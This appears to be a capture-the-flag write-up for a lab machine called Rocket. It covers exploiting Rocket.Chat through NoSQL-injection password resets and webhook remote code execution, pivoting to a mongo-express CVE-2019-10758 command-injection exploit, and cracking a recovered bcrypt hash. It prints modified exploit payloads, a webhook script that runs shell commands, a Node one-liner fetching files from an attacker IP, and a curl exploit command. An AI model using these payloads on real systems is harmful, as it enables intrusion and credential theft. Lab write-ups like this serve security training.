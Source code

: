 # WIP: Rocket 

*Get ready for blast off!*

This room was a *quest*, many steps each a bit of effort. 

Scans revealed 22 and 80, on 80 you were redirected to 'rocket.thm', which a host entry needed to be created for.

There was just a brochureware site at that address, so with ffuf and scanning for subdomains (via `-H "Host: FUZZ.rocket.thm"`) the subdomain chat was found.

On chat.rocket.thm was, obviously, an instance of the Rocket Chat chat system. There is a few CVEs for this - the one I tried was https://www.exploit-db.com/exploits/49960, an exploit that can, with the email of an existing user and a target admin email account, reset passwords for these accounts via nosql injection to recover reset tokens, and then use the admin account to gain RCE via webhooks (the rocket chat webhook feature allows nodejs scripts).

The exploit by itself didn't work properly however - it could successfully reset passwords (changing them to `P@$$w0rd!1234`) but would fail when attempting to run the RCE. Examining the script, there were a few issues:

- first, resetting a password takes ages and it does this *twice*, once with the low priv user. This can be skipped by registering a user on the site then baking that user's password into the exploit and skipping the reset step. Though this might be unnecessary as its only purpose seems to be to get a OTP token.
- as just alluded to, the script assumes the site and the admin is protected by MFA. This is not the case for this room. Accordingly all the secret and code stuff in the script can be removed, but importantly, within the RCE function, the payload sent to the auth endpoint should be changed from:

  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"totp\\":{\\"login\\":{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}},\\"code\\":\\"'+code+'\\"}}]}"}'
  ```
  
  to
  
  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
  ```
- third, the rce execution doesn't work because it uses the wrong format for the nodejs script, compared to what rocketchat expects. specifically it tries to create an integration (webhook) with the following script:

  ```
  const require = console.log.constructor('return process.mainModule.require')();
  const { exec } = require('child_process');
  exec('+cmd+');
  ```
  
  this however is invalid. at this point I abandoned the exploit and using the reset admin credentials, modded the integration directly to follow this format:
  
  ```
  class Script
  {
    process_incoming_request() {
      const require = console.log.constructor('return process.mainModule.require')();
      const { execSync } = require('child_process');
      res = execSync('chmod +x /tmp/CR86Ge29yShsPuLFp && /tmp/CR86Ge29yShsPuLFp');
      return { error: { success: true, message: res.toString() } }
    }
  }
  ```
  this also changed some of the offsets used to find the token and id from the response
- finally, reading the output needed to be tweaked: since the result was in a message field, parsing the response as json then printing this field would get proper formatting.
  
Webhooks can be invoked by curl, and the full curl command is helpfully provided on the integrations page. Notably, in the above setup the output of the command is placed in the general chat channel, which isn't very stealthy. Alternatively using `return { error: { success: false, message: res.toString() } }` would output the error on the command line after curl. Also, bad failures of the script can be diagnosed in the logs (though the log will be full of errors from the token brute forcing, be warned).

With RCE, the box was enumerated slowly. Its a tied down docker container, with none of the common tools. To upload I changed rocket chats settings to use the file system and /tmp folder, and then uploaded files into chat. They would be placed in /tmp with random file names, but were otherwise fine.

Step 2: mongo-express exploit

Even though the machine is missing most tools, you can download files with node using a simple one liner: `node -e 'require("http").get("http://10.10.16.78:1234/client", res => res.pipe(require("fs").createWriteStream("client")))'`. If this is hard to send through the limited shell, base64 it and then decode after saving to a file.

env reveals mongodb on 172.17.0.2 which after pivoting can be accessed with mongo cli, but there is nothing in there

on 172.17.0.4 is a web interface for mongo, using mongo-express (identified by port 8081 and express returned in the headers). this is vulnerable to CVE-2019-10758, a very simple exploit which can be invoked with curl: `proxychains curl 'http://172.17.0.4:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return pr")().mainModule.require("child_process").execSync("id")'`. this will return 'valid' if the command succeeds, which can be helpful.

once having a shell as root, you can find a backup folder at /backup/db_backup/meteor. in here is bson.hash which contains a simple user/password for the user Terrance, the password in bcrypt.

this can be cracked with hashcat and rockyou, though takes ages
